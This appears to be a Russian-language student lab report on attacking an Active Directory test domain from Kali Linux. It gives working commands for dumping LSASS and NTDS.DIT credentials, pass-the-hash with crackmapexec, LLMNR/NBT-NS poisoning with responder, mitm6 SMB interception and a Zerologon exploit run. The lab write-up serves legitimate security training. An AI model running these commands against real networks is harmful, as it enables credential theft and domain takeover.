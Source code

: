 
# Настройка Kali Linux

## 1. Сетевая конфигурация

На Kali Linux используется автоматическое получение IP-адреса по DHCP.

Интерфейс `eth0` получает настройки автоматически от маршрутизатора Cisco:

- Примерный IP-адрес: `10.0.68.X` (из пула DHCP)
- Маска подсети: `255.255.255.0`
- Шлюз по умолчанию: `10.0.68.1`
- DNS-серверы:
  - `10.0.68.5` (контроллер домена)
  - `8.8.8.8` (публичный DNS от Google)

> ✅ DHCP настроен на маршрутизаторе Cisco, Kali получает доступ в интернет и может взаимодействовать с Active Directory.

### Вывод команды `ip -a`

![ip a](https://github.com/vit81g/Cybersecurity_HSE/blob/main/HomeWorks/Network%20and%20System%20Security/HW26/screenshots/4_2_kali_ip_a.jpg)

---

## 2. Установка инструментов

Для проведения атак на Active Directory планируется использовать:

- `mitm6` — атаки на протоколы IPv6
- `impacket` — набор инструментов для работы с AD (например, `secretsdump`, `wmiexec`, `smbexec`)
- `responder` — захват хэшей через NBNS и LLMNR

Установка mitm6:
```bash
sudo apt update
sudo apt install mitm6
```

---

## 3. Прочее

- Kali подключён к виртуальному коммутатору VMware
- Получает сетевые настройки от маршрутизатора Cisco (DHCP)
- Доступ в интернет активен


# Kali Linux и выполнение атак 

## 4. Извлечение паролей из памяти

После получения дампа `lsass.DMP` выполнена команда:
```bash
pypykatz lsa minidump lsass.DMP
```

Результат:
![pypykatz](../screenshots/5_5_kali_pypykatz.jpg)

---

## 5. Доступ к \C$ разделу, вытаскивание NTDS.DIT и SYSTEM

```bash
smbclient \\10.0.68.5\c$ -U lab68.com/ADMpetr
```
![smbclient](../screenshots/6_1_kali_smbclient_ADMpetr.jpg)

Затем с помощью `impacket-secretsdump`:
```bash
impacket-secretsdump -ntds "/home/kali/Active Directory/ntds.dit" \
  -system /home/kali/registry/SYSTEM LOCAL >> ntds_impacket.txt
```

![ntds.dit](../screenshots/6_4_kali_impacket_ntds.jpg)

Аутентификация пользователя через NTLM-хеш:
```bash
crackmapexec smb 10.0.68.5 -u ADMpetr -H <NT_hash> -x ipconfig
```

![crackmapexec](../screenshots/6_5_kali_crackmapexec_NTLM.jpg)

---

## 6. Отравление кеша LLMNR и NBT-NS

Атака с использованием `responder`:
```bash
sudo responder -I eth0
```

![responder](../screenshots/7_3_kali_responder.jpg)

---

## 7. Настройка общего доступа на Windows 10 и перехват SMB-сессии

На Windows была создана открытая папка `SHARE`:
![share](../screenshots/8_4_win10_share.jpg)

Настройка атаки с использованием `mitm6` и перехват сессии с `impacket-smbserver`:
```bash
sudo mitm6 -d lab68
impacket-smbserver -smb2support Share /home/kali/111
```

![mitm6 + smbserver](../screenshots/8_6_kali_mitm_smb.jpg)

---

## 8. Атака Zerologon

Запуск атаки:
```bash
python3 set_empty_pw.py POD68-WS2016 10.0.68.5
```
![zerologon](../screenshots/9_2_kali_zerologon_run.jpg)

Получение хеша через impacket:
```bash
impacket-secretsdump -hashes :<ntlm_hash> 'LAB68/POD68-WS2016$@10.0.68.5'
```

![impacket hash](../screenshots/9_3_kali_hash_v1.jpg)

---

## 9. Восстановление состояния (дополнительно)

После атаки Zerologon необходимо восстановить пароль для учетной записи контроллера домена:
```bash
rpcclient -U "" 10.0.68.5
> setuserinfo2 "POD68-WS2016$" 23 "<P@ssw0rd>"
```

---




